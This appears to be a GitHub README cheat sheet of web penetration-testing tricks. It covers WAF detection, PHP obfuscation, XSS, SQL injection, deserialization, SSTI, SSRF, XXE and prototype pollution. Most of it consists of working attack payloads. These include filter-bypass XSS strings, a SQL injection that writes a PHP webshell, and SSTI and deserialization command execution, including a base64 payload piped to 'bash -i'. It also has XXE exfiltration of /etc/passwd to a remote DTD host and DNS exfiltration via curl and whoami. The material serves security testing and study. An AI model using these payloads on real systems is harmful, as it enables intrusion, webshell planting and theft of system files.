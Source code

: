 # Tricks - Web Penetration Tester

- [x] In Construction... (85%)

## WAF

### Manual Detection:

-> Cookies

-> Response messages

-> HTTP status Code's

-> Rules

## Host Obfuscation

#### Types

-> DWORD
  
-> OCTAL 
  
-> HEX
  
-> HYBRID

### Tool

https://www.silisoftware.com/tools/ipconverter.php

### Response - Status code WAF'S

-> mod_security -> 406 Not Acceptable

-> AQTRONIX WebKnight -> 999 No hacking

### Tool's

-> wafw00f 

https://github.com/EnableSecurity/wafw00f

-> nmap --script=http-waf-fingerprint

https://nmap.org/nsedoc/scripts/http-waf-fingerprint.html

-> imperva-detect

https://raw.githubusercontent.com/vmfae-iscteiulpt/imperva-detect/master/imperva-detect.sh

-> bypass to find real ip in CloudFlare:

https://github.com/zidansec/CloudPeler

#### Others

https://github.com/0xInfection/Awesome-WAF

## PHP Obfuscation Techniques:

### Mix - Hex + Octal

echo "t\x72\x69\143\153s";

//Tricks

### Variable Parsing

$a = "ri"; $b ="ck"; echo "T$a[0]$a[1]$b[0]$b[1]s";

//Tricks

### Variable Variables

$a = "T"; $$a = "ri"; $$$a = "cks"; echo $a.$T.$ri;

//Tricks

### PHP Non-Alphanumeric 

$\_="{"; #XOR char

echo $\_=($\_^"<").($\_^">").($\_^"/"); #XOR = GET

//GET

https://web.archive.org/web/20160516145602/http://www.thespanner.co.uk/2011/09/22/non-alphanumeric-code-in-php/

### Tools

-> phponalpha

-> phponalpha2

https://hackvertor.co.uk/public

### PHP Obfuscation - base64+gzdeflate

codes/obufscation/obfuscation.php

# Online PHP Executor

"3v4l.org (leetspeak for eval) is an online shell that allows you to run your code on my server. I compiled more than 250 different PHP versions (every version released since 4.3.0) for you to run online."

https://3v4l.org/

## Cross-Site Scripting (Reflected, Stored, DOM, Mutation, Poliglote)

### Protection XSS

-> XSS Auditor and XSS Filter

https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/xss.md

https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html

https://www.chromium.org/developers/design-documents/xss-auditor/

https://portswigger.net/daily-swig/xss-protection-disappears-from-microsoft-edge

https://developer.mozilla.org/pt-BR/docs/Web/HTTP/Headers/X-XSS-Protection

-> Wordlists for XSS Bypass

https://gist.githubusercontent.com/rvrsh3ll/09a8b933291f9f98e8ec/raw/535cd1a9cefb221dd9de6965e87ca8a9eb5dc320/xxsfilterbypass.lst

https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/XSS/XSS-Bypass-Strings-BruteLogic.txt

https://raw.githubusercontent.com/payloadbox/xss-payload-list/master/Intruder/xss-payload-list.txt

https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/XSS/XSS-Cheat-Sheet-PortSwigger.txt

### XSS Keylogger

https://rapid7.com/blog/post/2012/02/21/metasploit-javascript-keylogger/

https://github.com/hadynz/xss-keylogger

### XSS Mutation

http://www.businessinfo.co.uk/labs/mxss/

### XSS Poliglote

https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

### Regex blacklist filtering

(on\w+\s*=)

<svc/onload=alert(1)>

<svg//////onload=alert(1)>

<svg id=x;onload=alert(1)>
  
<svg id=\`x\`onload=alert(1)>
  
(?i)([\s\"'`;\/0-9\=]+on\w+\s*=)
  
<svg onload%09=alert(1)>
  
<svg %09onload=alert(1)>
  
<svg %09onload%20=alert(1)>
  
<svg onload%09%20%28%2C%3B=alert(1)>
  
<svg onload%0B=alert(1)>

### Keyword based in filter
 
#### blocked - alert - bypass
  
-> <script>\u0061lert(1)</script>
  
-> <script>\u0061\u006C\u0065\u0072\u0074(1)</script>
  
-> <script>eval("\u0061lert(1)")</script>
  
-> <script>eval("\u0061\u006C\u0065\u0072\u0074\u0028\u0031\u0029")</script> 
  
#### Removing HTML Tags
  
<scr<iframe>ipt>alert(1)</script>
  
### Scaping Quote
  
### Methods
  
-> String.fromCharCode()
  
-> unescape

Ex:
 
-> decode URI + unescape method
  
decodeURI(/alert(%22xss%22)/.source)
  
decodeURIComponent(/alert(%22xss%22)/.source)
  
Add execution sink for execution:
  
-> eval
  
### Escaping Parentheses
  
\<img src=x onerror="\u0061lert(1)"/>
  
\<img src=x onerror="eval('\141lert(1)')"/>

\<img src=x onerror="eval('\x61lert(1)')"/>
  
### Others Examples
  
#### HTML Tag
  
<div>
  
here
  
</div>

-> <svg/onload=alert(1)

#### HTML Tag Attributes

<input value="here"/></input>
 
-> adaa"> <a/href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTs8L3NjcmlwdD4=">show</!--
  
#### Script Tag
  
<script>
  
var name="here";
  
</div>
  
</script>
  
-> ;alert(1);//

#### Event Attributes

\<button onclick="reserve(here);">
  
Okay!
  
</button>

-> alert(1)

Dom Based
  
\<script>var ok = location.search.replace("?ok=", "");domE1.innerHTML = "<a href=\'"+ok+"\'>ok</a>";</script>
  
-> javascript:alert(1)

## JavaScript Encoding and Compressor:

-> jjencode

https://utf-8.jp/public/jjencode.html

-> aaencode

https://utf-8.jp/public/aaencode.html

-> jsfuck

https://github.com/aemkei/jsfuck/blob/master/jsfuck.js

-> Minifying

https://developers.google.com/closure/compiler/

-> Packer 

http://dean.edwards.name/packer/

## Type Juggling

https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf

### PHP - others tricks

[ eval () execute a chain whose variable $ HTTP_USER_AGENT is so just
change your header in PHP code ]

https://www.exploit-db.com/papers/13694

## Insecure Deserialization 

-> Binary

-> human readable

### PHP Deserialization

#### PHP - Method Serialization:

-> serialize()

-> unserialize()

#### Magic Methods:

-> __construct()

-> __destruct()

-> __wakUp()

#### Class Properties

Public \<s>
 
Ex:

O:4:"Okay":1:{s:8:"filepath";s:11:"/tmp/ok.txt";}
  
Protected \0 * \0

Ex:

O:4:"Okay":1:{s:11:"' . "\0" . '*' . "\0" . 'filepath";s:11:"/tmp/ok.txt";}

Private \0 \<s> \0

Ex:
  
O:4:"Okay":1:{s:14:"' . "\0" . 'Okay' . "\0" . 'filepath";s:11:"/tmp/ok.txt";}

codes/deserialization/example.php
  
#### Trick Bypass

a:2:{s:8:"anything";o:4:"Okay":1:{s:8:"filepath";s:11:"/tmp/ok.txt";}}
  
### Others 

/codes/deserialization/php/token_hmac_sha1.php

### .NET Deserialization

#### Methods Serialization:

-> Binary Formatter

-> DataContractSerializer

-> NetDataContractSerializer

-> XML Serialization
  
#### Most common places to find serialized data

-> VIEWSTATE
    
-> .NET remoting services
  
#### Tool

https://github.com/pwntester/ysoserial.net

### Java Deserialization

#### Identify

-> import java.io.serializable

-> binary with ac ed 00 05

-> base64 starts with rO0AB in web applications
  
#### java.lang.Runtime.exec()
  
bash -c {echo,payload_base64}|{base64,-d}|{bash,-i}

https://www.bugku.net/runtime-exec-payloads/

### Tools

https://github.com/frohoff/ysoserial

https://github.com/NickstaDB/SerializationDumper

https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java
  
### Script
  
codes/deserialization/java/gserial.sh
  
codes/deserialization/java/payload.txt
  
while read payload; 
  
do echo "$payload\n\n"; 
  
java -jar ysoserial.jar $payload "sleep 5" | base64 | tr -d '\n' > $payload.ser; 
  
echo "-----------------Loading-----------------\n\n"; done < payloads.txt
                                                                         
#### Bad Sign

-> ClassNot FoundException

#### Good Sign

-> java.io.IOException

## Cloud

http://169.254.169.254/latest/meta-data

http://169.254.169.254/latest/api/token

### Serverless Injection

echo "hi" > ok.txt && aws s3 cp ok.txt 's3://<BUCKET>/' -acl -public-read
  
### Tools

https://github.com/clarketm/s3recon
  
## XPATH
  
error()

* and doc('http://hacker.site/')
  
* and doc('http://hacker.site/', name(/*) ))
  
### Tools
  
https://xcat.readthedocs.io/en/latest/
  
### Wordlists for SQLI e XPath - Authentication Bypass

https://raw.githubusercontent.com/payloadbox/sql-injection-payload-list/master/Intruder/exploit/Auth_Bypass.txt
  
## Padding Oracle Attack
  
### Identify

-> rememberMe: (Cookie)

### Exploiting 

java -jar ysoserial.jar CommonsBeanutils1 "touch /tmp/success" > payload.class

https://github.com/frohoff/ysoserial

python shiro_exp.py site.com/home.jsp cookie payload.class

https://github.com/wuppp/shiro_rce_exp/blob/master/shiro_exp.py
  
## Hash Length Extension Attack

https://github.com/iagox86/hash_extender

https://site.com/index.php?file=oktest&hash=hash

./hash_extender -f sha1 --data 'oktest' -s hash --append '../../../../../../../../../etc/passwd' --secret-min=10 --secret-max=40 --out-data-format=html --table > payloads.out

burp intruder -> payloads.out in file parameter.  
  
## Insecure - Machine Key for RCE 

https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/deserialization/exploiting-__viewstate-parameter.md
  
https://github.com/pwntester/ysoserial.net
  
https://github.com/NotSoSecure/Blacklist3r/tree/master/MachineKey/AspDotNetWrapper
  
### Others Docs

https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

## Local File Inclusion - LFI

### LFI - files for fuzzing

### Wordlist LFI - Linux

https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt

### Wordlist LFI - Windows

https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt

### Payloads for bypass:

-> bypass_lfi.txt
  
### Wordlist for parameter fuzzing
  
https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/burp-parameter-names.txt
  
### Wordlist for subdomain fuzzing
  
https://github.com/danielmiessler/SecLists/tree/master/Discovery/DNS

## SQL Injection
  
### WAF BYPASS

#### Query default:

'UNION SELECT 1, name,3,4 from users; -- -

#### Add comment /* */ for space bypass

'UNION/\*\*/SELECT/\*\*/1,name,3,4/**/from/**/users; -- -

#### Add comment /\*!\*/ in query for filters bypass

'/\*!UNION SELECT\*/ 1,group_concat(name),3,4 from users; -- -

#### Add random case

'UnIoN SeLeCt 1,GrOuP_cOnCaT(nAme),3,4 FrOm users; -- -

#### Example of mix:

'/\*!UnIoN/\*\*/SeLeCt/\*\*/\*/1,GroUp_ConCat(nAmE),3,4/\*\*/FrOm/\*\*/users; -- -

#### Others Techniques:

-> urlencode (example:%20 instead of space);
  
-> Scientifc Notation;
  
-> hexadecimal, substr, etc...
  
### Webshell via SQLI
  
' union select 1, 2, 3,"<\?php system($_GET['cmd']);\?>" into outfile "/var/www/html/pdp.php"-- -
  
### SQL Injection Second-Order (query connector)

codes/sqli_second_order/sqlitwo.php

### SQL Injection Out-Of-Band, etc

https://book.hacktricks.xyz/pentesting-web/sql-injection
  
### Tamper's SQLMAP
  
-> randomcase.py
  
-> order2ascii.py

-> xforwardedfor.py
 
### XPATH NOTATION
  
%' and extractvalue(0x0a,concat(0x0a,(select database() limit 1))) -- -
  
### Wordlist for SQL Injection - Bypass

https://gist.githubusercontent.com/zetc0de/f4146eb278805946ab064a753eac6a02/raw/e126452093b9cde7f82eff14a15f8ceca8188701/sqli-bypass-waf.txt

### Doc for SQL Injection - Bypass

https://github.com/OWASP/www-community/blob/master/pages/attacks/SQL_Injection_Bypassing_WAF.md
  
## NOSQL Injection
  
https://book.hacktricks.xyz/pentesting-web/nosql-injection
  
## Graphql Introspection

https://ivangoncharov.github.io/graphql-voyager/
  
## CSRF

codes/csrf/csrf.html
  
codes/csrf/csrf_json.html
  
codes/csrf/csrf_json_xhr.html
  
codes/csrf/csrf_token_bypass.html

### Analyze the token and perform brute-force

burp intruder -> sequencer -> Token Location Within Response -> Start live capture -> save tokens

cat tokens.txt | uniq -c | nl 
  
## SSTI

### Identify

-> Jinja2 or Twig
  
{{3*3}}

-> Smarty or Mako
  
{3*3}

-> ERB(Ruby)
  
<%= 7*7 %>

-> FreeMarker
  
#{3*3}

-> Others 
    
${3*3}
  
${{3*3}}

3*3

### Java Expression Language

{{T(java.lang.Runtime).getRuntime().exec('id')}}

''.class.forName('java.lang.Runtime').getRuntime().exec('id')

### FreeMarker

\<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}

### Python - Secret Key
  
{{settings.SECRET_KEY}}
  
### Doc for SSTI	

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
  
## SSRF - Protocol Smuggling

-> HTTP-Based(Elastic, CouchDB, Mongodb, docker),etc.

-> Text-Based(ftp(21), smtp(587), zabbix(10051), mysql(3306), redis(6379), memcached(11211), etc.

curl "gopher://localhost:port"

### Scripts

codes/ssrf_protocol_smuggling/memcached.py

codes/ssrf_protocol_smuggling/zabbix.py

### Tool's

-> Gopher Protocol

https://datatracker.ietf.org/doc/html/rfc1436

-> Gopherus

https://github.com/tarunkant/Gopherus
  
### Scripts

codes/ssrf_protocol_smuggling/zabbix.py
  
codes/ssrf_protocol_smuggling/memcached.py
  
-> stats items
  
-> stats cachedump <slab class> <number of items to dump>
  
-> get <item>
  
### Doc for SSRF - bhack

https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf
  
## CRLF Injection
  
/%0D%%0ALocation

## XXE OOB
  
### XXE OOB - Exfiltrate data exfiltrating data via dtd

-> Part 1

\<!DOCTYPE r[

\<!ELEMENT r ANY>

\<!ENTITY % ult SYSTEM "http://ip/evil.dtd">

%ult;

%param1;

]>

<r>&exfil;</r>

-> Part 2
  
codes/xxe/evil.dtd
  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/xxe/evil.dtd
  
\<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
  
\<!ENTITY % param1 "\<!ENTITY exfil SYSTEM 'http://ip/?leak=%file;'>">
  
### XXE OOB to retrieve data via error messages with dtd file
  
codes/xxe/error.dtd

-> Part 1

\<!DOCTYPE foo [

\<!ENTITY % xxe SYSTEM "https://ip/evil.dtd"> 

%xxe;

%payload;

%remote;

]>

-> Part 2

\<!ENTITY % file SYSTEM "file:///etc/passwd">

\<!ENTITY % payload "\<!ENTITY &#37; remote SYSTEM 'file:///idonotexist/%file;'>">
  
### XXE OOB - XInclude to retrieve files with dtd file

\<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/>\</foo>

### XXE OOB - Image file upload

code/xxe/evil.svg

\<?xml version="1.0" standalone="yes"?>\<!DOCTYPE test [ \<!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>\<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">\<text font-size="16" x="0" y="16">&xxe;\</text>\</svg>

## XSLT Server Side Injection
  
https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-languaje-transformations

## Prototype Pollution

### Client Side
  
https://github.com/BlackFan/client-side-prototype-pollution
  
### Server Side

-> exec.exec in req body with lodash - application/json
  
https://nodejs.org/api/child_process.html#child_processexeccommand-options-callback

"__proto__":{
  
  "shell":"sleep 5"
  
}
  
-> exec.fork in req body with lodash - application/json
  
https://nodejs.org/api/process.html
  
"__proto__":{
  
    "execPath":"/bin/bash",
  
    "execArgv":[
  
    "-c",
  
    "sleep 5"
  
    ]
  
  }

### Rce rce exfiltrating via dns

curl http://$(whoami).site.com/

curl http://`whoami`.site.com/

## Others tool's and things
  
### ImageTragik

codes/rce/tragik.jpg

### Search across a half million git repos
  
https://grep.app
  
### The Cyber Swiss Army Knife - a web app for encryption, encoding, compression and data analysis.
  
https://gchq.github.io/CyberChef/
  
### List of file signatures
  
https://en.wikipedia.org/wiki/List_of_file_signatures

### Regex 
  
https://regex101.com/
  
### Decode
  
https://malwaredecoder.com/

### Encode for SQL Injection in Json
  
https://dencode.com/string/unicode-escape
  
### Wildcard DNS

https://nip.io/
  
### Explain Shell

https://explainshell.com/
  
### Webhook online
  
https://webhook.site/#!/b3d5ed21-b58d-4a77-b19d-b7cdc2eeadc0
  
### Reverse Shell
  
https://www.revshells.com/
 
### Api Security

https://platform.42crunch.com/
